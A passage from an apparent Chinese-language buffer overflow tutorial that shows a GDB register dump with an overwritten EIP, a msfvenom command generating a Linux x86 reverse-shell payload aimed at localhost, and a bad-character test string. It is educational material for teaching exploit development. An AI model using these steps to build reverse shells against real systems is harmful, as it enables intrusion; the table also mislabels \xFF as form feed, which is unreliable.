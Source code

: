 ```shell
ecx            0xffffcfe0          -12320
edx            0xffffc8bc          -14148
ebx            0x55555555          1431655765
esp            0xffffc8c0          0xffffc8c0
ebp            0x55555555          0x55555555
esi            0x56558eec          1448447724
edi            0xf7ffcb60          -134231200
eip            0x66666666          0x66666666
eflags         0x10282             [ SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99

```


非常完美，`EIP`是`0x66666666`，符合预期。


## Shellcode的长度

现在我们应该确定有多少空间供我们的`shellcode`执行我们想要的操作。利用这样的漏洞来获取`反向shell`很实用。首先，我们需要确定要插入的`shellcode`大约有多大，使用`msfvenom`。

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=7777 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes

```

我们知道了`Shellcode`的大小是`68 bytes`，但是我们应该预留一些更多空间，因为如果需要对此加密或编码，它的大小会增加。此外，我们可以在Shellcode前加入一些空指令（NOP），机器码是`\x90`。空指令的作用是什么？我们稍后解答。

### 坏字节

二进制文件以两个字节开头，其中包含一个用于确定文件类型的“魔数”。最初，它用于识别不同平台的目标文件。逐渐地，这个概念被转移到其他文件，现在几乎每个文件都包含一个魔数。

此类保留字符也存在于应用程序中，但它们并非总是出现，而且也各不相同。这些保留字符（也称为坏字符）可能有所不同，但我们经常会看到类似这样的字符：

| **\x00** | **\x0A** | **\x0D** | **\xFF** |
| :------: | :------: | :------: | :------: |
| **空字节**  |  **换行**  |  **回车**  |  **换页**  |
在生成shellcode的时候，我们需要避免这些坏字节的出现。使用一个`256 bytes`长度的字符串检测

```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
